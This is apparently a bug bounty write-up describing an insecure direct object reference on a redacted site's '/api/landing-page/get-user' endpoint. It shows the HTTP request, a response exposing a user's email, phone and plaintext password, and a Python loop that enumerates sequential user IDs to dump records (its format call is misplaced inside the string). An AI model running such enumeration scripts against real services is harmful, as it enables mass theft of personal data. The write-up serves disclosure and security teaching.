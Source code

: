 ```yaml
---
title: The story of how I was able to leak all user data
date: 2023-07-04 09:15:00
categories: [Bug Bounty]
tags: [bugbounty, hacking, python, idor]
image:
  path: https://secure.static.tumblr.com/ef2e2596c4ea072a60453d23ceab337f/coctv14/Y6Ln55n03/tumblr_static_azgsowaz948okgow4c4o8go8c.gif
---
```


## Overview

Missing authentication leads to user data leakage, That's the sentence that describes the problem in this article. Authentication is basically the most important part of security when building an application because it keeps unauthenticated people from accessing anything sensitive or trying to become a privileged user.

## How do I catch a bug?
I performed basic reconnaissance techniques on the target and performed activities like a normal user. The site didn't have many features and forms, I tested a few things messing with business logic, breaking authentication and session validation all seemed safe until when I checked every request in the proxy history using [BurpSuite](https://portswigger.net/burp) which made it easy to reproduce the issue. I found a **POST** api request to the path **/api/landing-page/get-user** 

## Proof of Concept

### Request

```text
POST /api/landing-page/get-user HTTP/1.1
Host: redacted.com
Origin: https://redacted.com
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

guid=&code=0&data={"user_id":"<ID_USER_HERE>"}
```

### Response

```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
pragma: no-cache
cache-control: no-cache, no-store
content-length: 425
x-frame-options: SAMEORIGIN

{
  "code": "0",
  "info": "Successfully Get User Results",
  "data": {
    "id": 1,
    "nama": "My User",
    "email": "myuser@gmail.com",
    "msisdn": "121212122",
    "institusi": "",
    "password": "myuserpassword",
    "create_dtm": "2021-07-07T02:13:13.000Z",
    "nonce": "6603",
    "status_otp": 1,
    "status_otp_info": "{\"code\":\"0\",\"info\":\"OTP code sent successfully.\",\"data\":[]}",
    "status_otp_count": 0,
    "last_login": "2023-01-19T02:00:35.000Z"
  }
}
```

## Leaking all user data
By using any registered user id can leak registered user data this is a kind of vulnerability [Insecure direct object reference (IDOR)](https://portswigger.net/web-security/access-control/idor) - _is a type of access control vulnerability that arises when applications use user-supplied input to access objects directly._ I knew that the user ids used were not random but sequential so I wrote python code to leak every registered user's data on the site.

### Python code

```python
import requests
import os

for i in range(10):
    r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
    if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

Performs a loop to generate a number that will be used to guess the id of each user.

```python
for i in range(10):
```

Uses the [requests](https://pypi.org/project/requests/) library to make a request to the specified URL along with the data in the body.

```python
r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
```

Performs filtering on the response data to check if there is valid user data otherwise it will forward the next request.

```python
if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

## $$$
![image](/assets/img/writeup/2023-07-04/Screenshot_2023-07-04_01-04-06.png)
_Rewarded by the program_

## Conclusion
Check the incoming traffic including some API requests that you may have missed. Then try to create a good report so that the security team can reproduce the findings as well as create an exploit script that helps to show and exacerbate the impact. This can also be a plus while practicing coding.

That's it, Thanks for reading - <a href="https://x.com/thd3r">@thd3r</a>